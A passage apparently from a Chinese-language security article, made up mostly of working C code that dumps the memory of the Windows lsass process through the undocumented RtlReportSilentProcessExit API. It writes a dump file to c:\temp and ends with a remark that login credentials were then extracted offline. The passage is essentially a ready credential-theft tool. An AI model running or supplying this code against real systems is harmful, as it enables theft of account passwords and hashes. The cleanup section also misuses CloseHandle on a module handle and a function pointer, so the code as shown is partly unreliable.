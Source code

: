 ```
        printf(" - 获取目标进程pid: %#X\n", pid);
        return 1;
    `}`
    printf(" - 获取目标PID: %#X\n", pid);

    do
    `{`
        hNtMod = GetModuleHandle(L"ntdll.dll");
        if (!hNtMod) `{`
            printf(" - 获取NTDLL模块句柄失败\n");
            break;
        `}`
        printf(" - NTDLL模块句柄: %#X\n", (DWORD)hNtMod);
        fnRtlReportSilentProcessExit = (fRtlReportSilentProcessExit)GetProcAddress(hNtMod, "RtlReportSilentProcessExit");
        if (!fnRtlReportSilentProcessExit) `{`
            printf(" - 获取API RtlReportSilentProcessExit地址失败\n");
            break;
        `}`
        printf(" - RtlReportSilentProcessExit地址: %#X\n", (DWORD)fnRtlReportSilentProcessExit);
        hLsassProc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION|PROCESS_VM_READ, 0, pid);
        if (!hLsassProc) `{`
            printf(" - 获取lsass进程句柄失败: %#X\n", GetLastError());
            break;
        `}`
        printf(" - 获取lsass进程句柄: %#X\n", (DWORD)hLsassProc);

        ntStatus = fnRtlReportSilentProcessExit(hLsassProc, 0);
        printf(" - 结束,查看c:\\temp\\lsass*.dmp...RET CODE : %#X\n", (DWORD)ntStatus);

    `}` while (false);

    if (hNtMod) 
        CloseHandle(hNtMod);
    if (fnRtlReportSilentProcessExit) 
        CloseHandle(fnRtlReportSilentProcessExit);
    if (hLsassProc)
        CloseHandle(hLsassProc);
    if (fnRtlReportSilentProcessExit)
        fnRtlReportSilentProcessExit = NULL;

    return 0;
`}`
```

[![](https://p0.ssl.qhimg.com/t01dc3fc70c5d62a9b8.png)](https://p0.ssl.qhimg.com/t01dc3fc70c5d62a9b8.png)

并且成功以离线方式导入读取登录凭据:

[![](https://p5.ssl.qhimg.com/t01f14b3d3743909dbc.png)](https://p5.ssl.qhimg.com/t01f14b3d3743909dbc.png)
